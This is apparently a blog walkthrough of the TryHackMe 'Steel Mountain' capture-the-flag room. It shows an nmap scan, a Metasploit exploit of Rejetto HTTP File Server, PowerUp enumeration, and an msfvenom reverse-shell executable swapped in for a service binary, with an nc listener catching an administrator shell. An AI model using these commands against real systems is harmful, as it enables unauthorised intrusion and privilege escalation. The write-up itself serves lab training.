 ```yaml
---
title: "TryHackMe-SteelMountain" 
layout: post
date: 2020-05-24 22:44
image: pictures/Steel_Mountain/steelmountain.jpg
headerImage: false
tag:
- markdown
- elements
category: blog
author: DeShaun Ormond
description: Hello How are your
---
```



Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.

You can access this room here: [SteelMountain](https://tryhackme.com/room/steelmountain)

__You will need a subscription to complete this box__
## Table of Contents

- [Task 1: Introduction](#introduction)
- [Task 2: Initial Access](#initial-access)
- [Task 3: Privilege Escalation](#privilege-escalation)
<!--- [Task 4: Access and Escalation Without Metasploit](#access-and-escalation-without-metasploit) --> 


### Introduction

**Let's Begin!**


**Question 1: Deploy the machine. Who is the employee of the month?**
  
Deploy the box and run a nmap scan!

~~~
nmap -sC -sV <boxip> 
~~~

 ![nmap_scan](/pictures/Steel_Mountain/nmap_scan.png)

We have two http services running, let's take a look at those websites!  Access the web service running on port 80
~~~
http://boxip:80
~~~

Right clik the image and click on image info. The name of the image will be our first flag! 
![alt text](/pictures/Steel_Mountain/Flag1.png)


{: .box-success}
**Flag 1 :** XXX XXXXXX

### Initial Access

**Question 1: Scan the machine with nmap. What is the other port running a web server on?**
 
  Nmap already found what port the other web server was running.  
 
 {: .box-success}
**Flag :**XXXX

**Question 2: Take a look at the other web server. What file server is running?**

Access the webserver on port 8080 
~~~
http://boxip:8080
~~~

![alt text](/pictures/Steel_Mountain/port8080.png)

If you look at the bottom left hand corner we see the file server version. If we click on the blue link it takes us to "Rejetto.com". Put two and two together and you now have your answer for the next flag! 

{: .box-success}
**Flag 2.2 :** XXXXXXX XXXX XXXX XXXXXX

**Question 3: What is the CVE number to exploit this file server?**

There are a lot of different ways to obtain the answer to this question, but I chose the quick route and googled 'Rejetto HTTP File Server Exploit'. This leads me to websites from Exploitdb and rapid7! Pick one and scroll down and you will find the CVE number. 

{: .box-success}
**Flag 2.3 :** XXXX-XXXX
 
> Question 4: Use Metasploit to get an initial shell. What is the user flag?
 
 Since rapid7 is the creator of Metasploit, it is a good bet that our CVE will be on metasploit. Let's run metasploit and exploit this box. 
 ~~~
 - msfconsole 
 - search rejetto 
 - use 0
 - set RHOST <boxip> 
 - set RPORT <8080>
 - set srvhost <vpn-ip>
 - run
~~~

 ![meterpreter shell](/pictures/Steel_Mountain/meterpreter1.png)
 
 It looks like that exploit worked! We now have a meterpreter shell on the vulnerable machine. Type 'pwd' to find out what directory you are in. 

 Navigate to bill's 'Desktop' directory where you will find the user.txt file. Read the file and you will have your flag! 


![flag2.4](/pictures/Steel_Mountain/Flag2_3.png)


{: .box-success}
**Flag2.4 :** XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX



### Privilege Escalation


  Now that we have a shell on this machine it is time to enumerate it! This room introduces us to PowerUp, a powershell script that is designed "to evaluate a Windows machine and determine any abnormalities". 

  You can download it from here [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) , or you can _open another terminal_ and run this command. 

~~~
curl https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 --output PowerUp.ps1

~~~

This will output a copy of the file to your current directory. Switch back to the terminal that has your meterpreter shell running and upload the file. Once you have uploaded it, you will need to load up powershell and run the commands given. 

 
 ![meterpreter upload](/pictures/Steel_Mountain/meterpreterupload.png)
 
 ```
  ps> . . \PowerUp.ps1
  ps> Invoke-AllChecks
 ```

The enumeration file should start to run and you should get back some information on what service is running on this machine. Locate the services that have 'CanRestart' option set equal to 'True'. This will be your answer for the next flag! 

![flag3.2](/pictures/Steel_Mountain/psscan.png)


{: .box-success}
**Flag :** XXXXXXXXXXXXXXXXXXX 


**Question 3: Use msfvenom to generate a reverse shell as an Windows executable. 
Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.**


Let's give it a shot! First lets create a reverse shell using msfvenom and output it to a file witht the same name. Open up a new terminal and enter the following command:

~~~
msfvenom -p windows/shell_reverse_tcp LHOST=X.X.X.X LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe
~~~

Once that is done, switch back to your exploited machine and ctrl-c out of powershell and upload the malicious replicate file. 

![msfvenom](/pictures/Steel_Mountain/msfvenom.png)

After the uploading is complete, drop into a shell by entering 'shell'. Once you have a shell, enter this command to stop the service. 

~~~
 > sc stop AdvancedSystemCareService9 
~~~

Perfect! We have stopped the service, now we need to switch it out with our malicious one. 

![Malware](/pictures/Steel_Mountain/copyASC.png)

We now have to open a new terminal, start a listening session on port 4443 and then start the service. **Create a listening session first!**

~~~
- New terminal: nc -nlvp 4443
- Exploited Terminal: sc start AdvancedSystemCareService9
 ~~~

Boom! You will see a shell pop up on your listening terminal and you will have root access to the machine!

{: .box-success}
**No Answer Needed** 

On your new terminal, navigate to Administrator's Desktop and print out root.txt

![Final Flag](/pictures/Steel_Mountain/Final_flag.png)


**Question #4: What is the root flag?**


{: .box-success}
**FLAG :**XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX



 



<!--
### Access and Escalation Without Metasploit

 The final task walks you through how to get access and escalation withoug using metasploit. 
 I won't walk you through but here is the answer to question 2:

{: .box-success}
 *powershell -c "Get-Service"*
{: .box-note}
*Note:** This is a notification box.### Warning {: .box-warning *Warning:** This is a warning box.### Error<!-- {: .box-error}**Error:** This is an error box. -->



